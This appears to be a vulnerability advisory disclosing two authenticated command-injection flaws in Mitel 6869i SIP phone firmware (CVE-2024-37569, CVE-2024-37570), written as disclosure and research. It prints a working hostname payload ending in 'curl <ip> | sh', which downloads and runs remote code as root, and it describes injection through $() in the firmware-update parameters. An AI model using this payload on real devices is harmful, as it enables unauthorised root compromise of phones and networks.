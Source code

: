 # Mitel 6869i  4.5.0.41, 5.0.0.1018
Multiple firmware version (4.5.0.41, 5.0.0.1018) of the Mitel 6869i SIP Phone were found to be vulnerable to a authenticated remote command execution (command injection) vulnerability. The web application hosted by the device, fails to properly sanitize user supplied Input resulting in the ability to execute arbitrary commands.

## Authenticated Remote Command Execution (provis)
The Mitel 6869i SIP Phone, firmware version 4.5.0.41, 5.0.0.1018, and earlier fail to properly sanitize user supplied input. The 'Network Settings' (`provis.html`) page does not perform sanitization the ``hostname`` parameter prior to writing the contents to the local configuration file ``/nvdata/etc/local.cfg``.

On devices boot, it is assumed that the ``/nvdata/etc/local.cfg``, or another configuration file containing the modified hostname parameter Is used as apart of a shell script.

By submitting a specially crafted HTTP POST request to the ``/provis.html`` endpoint containing certain characters, arbitrary commands under the user context of root can be executed.

During the boot process, the ``hostname`` parameter is eventually read into a shell script without sanitization, resulting in code execution. For the device to be functional during and after execution, the original `'udhcpc'` command must be set to its original state with any trailing data being nullified.

Using the payload ``QWERTY -t 302400 -T 6 -b -a -i eth0 -s /usr/share/udhcpc/default.script -p /var/run/udhcpc.eth.pid; curl <ip> | sh #`` In the ``hostname`` parameter, the original ``udhcpc`` command is completed, allowing any additional commands to succeed.

A full demonstration against the Mitel 6869i SIP Phone 4.5.0.41 can be viewed on YouTube, at https://www.youtube.com/watch?v=I9TQqfP5qzM.

### Affected Assets
Affected assets are based on tested firmware versions. It's possible that other versions may contain the same vulnerability. 

**REV00 6869i 4.5.0.41**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015546rev00450416869i.zip?modified=20180425183828

**REV03 6869i 5.0.0.1018 SP1**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015373rev035001018sp16869i.zip?modified=20180425183909

### CVE-ID
CVE-2024-37569

### Credit
Kyle Burns (kburns@packetlabs.net), Eric Salario (esalario@packetlabs.net), Michael Alampi (malampi@packetlabs.net) 

## Authenticated Remote Command Execution (firmware)
The Mitel 6869i SIP Phone, firmware version 4.5.0.41 fails to properly sanitize user supplied input. The 'Manual Firmware Update' (`upgrade.html`) page does not perform sanitization the `username` and `path` parameter prior to appending the flags to the busybox `ftpget` command. 

![source](images/01.png)

By sending a specially crafted HTTP POST request containing command substitution syntax (`$()`) to the endpoint `upgrade.html` arbitrary commands can be executed.  

![source](images/02.png)

### Affected Assets
Affected assets are based on tested firmware versions. It's possible that other versions may contain the same vulnerability. 
**REV00 6869i 4.5.0.41**
- https://www.mitel.com/-/media/mitel/file/zip/open-solutions/6869/58015546rev00450416869i.zip?modified=20180425183828

### CVE-ID
CVE-2024-37570

### Credit
Kyle Burns (kburns@packetlabs.net)
